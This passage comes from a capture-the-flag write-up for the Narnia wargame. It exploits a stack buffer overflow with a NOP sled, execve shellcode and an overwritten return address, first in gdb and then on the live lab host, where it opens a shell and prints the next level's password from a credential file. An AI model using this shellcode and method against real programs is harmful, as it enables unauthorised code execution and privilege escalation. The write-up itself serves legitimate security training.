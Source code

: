 ``` shell
0xffffd680:     0x44444444      0x44444444      0x44444444      0x44444444
0xffffd690:     0x44444444      0x44444444      0x44444444      0xaaaaaaaa
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xaaaaaaaa in ?? ()
```

Sorted! We successfully overwrote `libc`'s address with one of our choosing. This means our payload will look a little like this: `<nop sled><shellcode><padding><address pointing to the nop sled>`. Without further ado:

``` shell
(gdb) r $(python -c 'print "\x90"*64 + "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80" + "A"*(140-64-35) + "\x10\xd6\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /narnia/narnia2 $(python -c 'print "\x90"*64 + "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80" + "A"*(140-64-35) + "\x10\xd6\xff\xff"')

Breakpoint 1, 0x080484a8 in main ()
(gdb) x/44wx $esp
0xffffd600:     0xffffd610      0xffffd86d      0x00000000      0x00000000
0xffffd610:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd620:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd630:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd640:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd650:     0xdb31c031      0xb099c931      0x6a80cda4      0x6851580b
0xffffd660:     0x68732f2f      0x69622f68      0x51e3896e      0x8953e289
0xffffd670:     0x4180cde1      0x41414141      0x41414141      0x41414141
0xffffd680:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd690:     0x41414141      0x41414141      0x41414141      0xffffd610
0xffffd6a0:     0x00000000      0xffffd734      0xffffd740      0xf7feacca
(gdb) c
Continuing.
process 156 is executing new program: /bin/dash
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x80484a8
```

We can now try that outside of `gdb`. Note that sometimes the return address won't match exactly - `gdb` can set environment variables etc... causing the memory to be a bit off - hence the `nop` sled. As long as we hit the sled, the `nop` will lead right to the shellcode.

``` shell
narnia2@narnia:/narnia$ /narnia/narnia2 $(python -c 'print "\x90"*64 + "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80" + "A"*(140-64-35) + "\x10\xd6\xff\xff"')
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
vaequeezee
```
